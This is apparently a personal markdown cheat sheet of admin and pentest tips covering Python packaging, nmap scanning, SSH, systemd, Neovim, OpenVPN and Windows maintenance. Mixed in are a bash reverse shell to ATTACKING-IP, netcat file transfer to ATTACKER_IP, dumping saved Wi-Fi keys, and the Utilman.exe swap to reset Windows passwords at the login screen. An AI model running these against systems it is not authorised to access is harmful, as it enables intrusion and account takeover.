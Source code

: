 ### Tip-pipenv-poetry >[!CHECK]
**Use pipenv with poetry for python packaging-management and version control**
- first use pipenv to create a virtual project inside the folder with a python version different that the system one
- use poetry for packages control and use the env POETRY_VIRTUALENVS_PREFER_ACTIVE_PYTHON=True for this to work merely correctly; also need to activate the shell of pipenv and a child shell for poetry

### Create App Password on google Account
- Log in to the account, go to manage account, security, activate 2 steps authentication, and use this link if cannot see 
- [Create app password function](https://myaccount.google.com/apppasswords)

### A litle bit of NMAP
- a basic scan for all 65535 ports looking for open ones:
`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn {IP} -oG allPorts`

### Read .db files using python
- `python -c "import sqlite3; print(sqlite3.connect('database_name.db').cursor().execute('SELECT * FROM table_name').fetchall())"`

### Netcat
- Listen `nc -vnl -s HOST -p PORT`
- Copy CLIENT `nc -w 3 ATTACKER_IP ATTACKER_PORT < [file_to_download] SERVER nc -l -s HOST -p PORT > [path_to_save]`

### Bash connects
- Connections `"/bin/bash -c 'bash -i >& /dev/tcp/ATTACKING-IP/PORT 0>&1'"`
- Encripted `echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0`

### Read json in bash with python
- `curl -s 'https://api.github.com/users/lambda' | \
    python3 -c "import sys, json; print(json.load(sys.stdin)['name'])"`

### Read json in bash with jq
- `curl -s 'https://api.github.com/users/lambda' | jq -r '.name'`

### Python PSEUDOshell
- `python -c 'import pty; pty.spawn("/bin/bash")'`

### SSH forwarding
- `ssh -D [LOCALADDR:]LOCALPORT -N(just forward connections) -C(compress(better-on-slow-networks)) user@ip`

### Create a service in linux
```
[Unit]
Description=Shadowsocks proxy server
Requires
After

[Service]
Type
RemainAfterExit
User=root
Group=root
Type=simple
WorkingDirectory
ExecStart=/usr/local/bin/ss-server -c /etc/shadowsocks/shadowsocks.json -a shadowsocks -v start
ExecStop=/usr/local/bin/ss-server -c /etc/shadowsocks/shadowsocks.json -a shadowsocks -v stop
TimeoutStartSec

[Install]
WantedBy=multi-user.target
```

### Make NVIM remember last cursor position (pure lua)
```
local group = vim.api.nvim_create_augroup("jump_last_position", { clear = true })
vim.api.nvim_create_autocmd(
	"BufReadPost",
	{callback = function()
			local row, col = unpack(vim.api.nvim_buf_get_mark(0, "\""))
			if {row, col} ~= {0, 0} then
				vim.api.nvim_win_set_cursor(0, {row, 0})
			end
		end,
	group = group
	}
)
```

### Bypass Out Of the Box Experience (windows 11 Internet Requirement)
- In the 'Let's connect you to a network' screen, press `shift+F10` to launch cmd
- Type the following command: `OOBE\BYPASSNRO`
- After the successful execution the system should restart.

### Wlan profiles clear in Windows
- `netsh`
- `netsh wlan`
- `show profiles ssid key="clear"`

### Recover password on windows without reinstall
- On login windows press and hold shift and reboot the pc. Then recovery window will pop up, enter to troubleshooting,
- advanced options, command prompt. Then:
1. copy C:\Windows\System32\Utilman.exe C:\Windows\System32\Utilman.exebak
2. copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe /y
- Reboot again. On login screen got to accessibility press it and a command prompt will appear:
3. net localgroup administrastors
- The list of account shows up, select the one to reset its password:
4. net user your_username *
- Change the password and done.
*Don't forget to restore utilman to its original state*

### PROMISC mode on linux
```
auto eth1
iface eth1 inet manual
  up ifconfig $IFACE 0.0.0.0 up
  up ip link set $IFACE promisc on
  down ip link set $IFACE promisc off
  down ifconfig $IFACE down
```

### On windows, free port range that are in use
- discovery the ports
`netsh interface ipv4 show excludedportrange protocol=tcp`
- release the ports
`net stop winnat`

### Use ssh keys with ssh-config-file
- generate the key pair with ssh
`ssh-keygen -t ed25519 -C "a comment"`
- create a config file inside the .ssh folder that follows this schema:
```
Host name-of-the-configuration
  HostName  gitlab/github.com/ip/hostname
  User git/remote-host-username
  PreferredAuthentications publickey
  IdentifyFile path/to/private/identity/file
```
Configure the remote host with the public ssh key generated

### Openvpn as linux service
- Configure openvpn:
    install openvpn, openvpn-systemd-resolved, openresolv
`sudo wget "https://raw.githubusercontent.com/ProtonVPN/scripts/master/update-resolv-conf.sh" -O "/etc/openvpn/update-resolv-conf"`
`sudo chmod +x "/etc/openvpn/update-resolv-conf"`
- save the openvpn server config file into /etc/openvpn as openvpn.conf
- save the credentials in the first two lines of a textplain file called auth.txt with chmod 400. Put it in /etc/openvpn
- Add/edit this lines in the openvpn.conf file created
`auth-user-pass auth.txt`
`status /etc/openvpn/openvpn-status.log`
`log /etc/openvpn/openvpn.log`


### Check windows version from an ISO
- run:
  `DISM /get-wiminfo /wimfile:"X:\sources\install.wim" /index:1`
`X` is the driver letter


### Windows drivers backup-restore
-> [DOCS](https://www.tenforums.com/tutorials/68426-backup-restore-device-drivers-windows-10-a.html)
# Back Up All Device Drivers in Command Prompt
`dism /online /export-driver /destination:"full path of folder"`

# Back Up All Device Drivers in PowerShell
`Export-WindowsDriver -Online -Destination "full path of folder"`

# Restore a Device Driver Backup in Device Manager

# Restore All Device Drivers in Command Prompt
`pnputil /add-driver "full path of folder\*.inf" /subdirs /install /reboot`




### EOF ###

